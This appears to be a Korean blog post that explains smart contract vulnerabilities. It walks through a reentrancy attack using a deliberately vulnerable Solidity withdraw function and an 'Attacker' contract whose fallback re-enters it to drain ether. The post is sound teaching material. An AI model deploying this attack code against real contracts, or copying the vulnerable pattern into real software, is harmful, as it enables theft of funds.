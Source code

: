 ```yaml
---
layout: post
title: "Smart Contract Vulnerabilities"
date: 2023-11-26 10:29:53
excerpt: <b>&#35;Smart Contract, &#35;Solidity, &#35;Vulnerability</b>
---
```

## 목차
- [Smart Contract의 보안성](#smart-contract의-보안성)
- [Reentrancy Attacks](#reentrancy-attacks)

---
## Smart Contract의 보안성

Smart Contract는 사용자가 원하는 계약의 조건을 Solidity와 같은 언어를 이용해 코드로 작성해서 블록체인 네트워크에 배포한다. 결국 이 Smart Contract는 사용자가 작성한 코드이기 때문에 취약점이 있을 수밖에 없다. 또한 Smart Contract는 블록체인의 특성인 불변성에 따라서 한 번 배포된 이후에는 변경될 수 없기 때문에 Smart Contract를 작성할 때는 신중해야 한다.

이 Smart Contract에서 발생할 수 있는 취약점은 Reentrancy, Missing Access Controls, Weak Access Controls, Privilege Escalation, Governance를 포함한 다양한 취약점이 있다.

---
## Reentrancy Attacks

재진입 공격은 일반적으로 스마트 컨트랙트 내부에서 외부 컨트랙트나 함수를 호출할 때 발생하는데, 트랜잭션이 끝나기 전에 공격자가 함수 호출을 재진입하여 컨트랙트의 상태를 변경할 수 있는 취약점이다. (자금 유출, 상태 변조, Dos와 같은 것들로 이어질 수 있다.)

```solidity
pragma solidity ^0.8.0;

contract Vulnerable {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
        balances[msg.sender] -= _amount;
    }
}
```
위의 코드는 간단한 계정 입출금을 처리하는 스마트 컨트랙트이다. `deposit()` 함수를 호출하여 잔액을 입금하고, `withdraw()` 함수를 호출하여 잔액을 출금할 수 있다. 위 코드를 분석해 보면 하나의 취약점이 있다. `withdraw()` 함수에서 잘못된 방식으로 외부로 돈을 출금하고 있다. 구현되어 있는 로직을 보면 돈을 먼저 출금한 이후에 사용자의 잔액을 차감하고 있다. 이 경우에 트랜잭션이 끝나기 전에 공격자는 `withdraw()` 함수를 재호출할 수 있다.

![](https://substackcdn.com/image/fetch/f_auto,q_auto:good,fl_progressive:steep/https%3A%2F%2Fbucketeer-e05bbc84-baa3-437e-9518-adb32be77984.s3.amazonaws.com%2Fpublic%2Fimages%2Fc889fbc8-ca9c-47cd-91fb-07fcd1ab987c_1518x801.png)

재진입 공격을 구성도로 나타내면 위와 같다. 재진입 공격에 취약한 스마트 컨트랙트는 잔액 출금 트랜잭션이 끝난 이후에 잔액을 차감한다. 그러나 출금 트랜잭션이 끝나기 전에 `fallback()` 또는 `receive()` 함수를 통해서 취약한 컨트랙트의 `withdraw()` 함수를 재호출함으로 잔액이 차감되기 전에 다시 컨트랙트 내에 있는 자금을 해커의 잔액만큼 계속 가져올 수 있다. (해커의 잔액이 0으로 업데이트되지 않았기 때문에 출금이 되었더라도 현재 잔액은 그대로 저장되어 있음.)

```solidity
contract Attacker {
    Vulnerable vulnerable;

    constructor(address _vulnerableAddress) {
        vulnerable = Vulnerable(_vulnerableAddress);
    }

    function attack() public payable {
        vulnerable.deposit{value: msg.value}();
        vulnerable.withdraw(msg.value);
    }

    fallback() external payable {
        if (address(vulnerable).balance >= msg.value) {
            vulnerable.withdraw(msg.value);
        }
    }
}
```
재진입 공격 코드는 위와 같이 작성할 수 있다. 취약한 컨트랙트의 `deposit()` 함수를 이용해서 이더를 송금한 이후에 `withdraw()` 함수를 이용해서 잔액을 출금한다. 이때 취약한 컨트랙트에서 Attacker 컨트랙트로 돈을 송금하면 fallback() 함수가 호출된다. 이 fallback() 함수 내에서 바로 취약한 컨트랙트의 `withdraw()` 함수를 재호출해서 잔액을 다시 출금할 수 있다.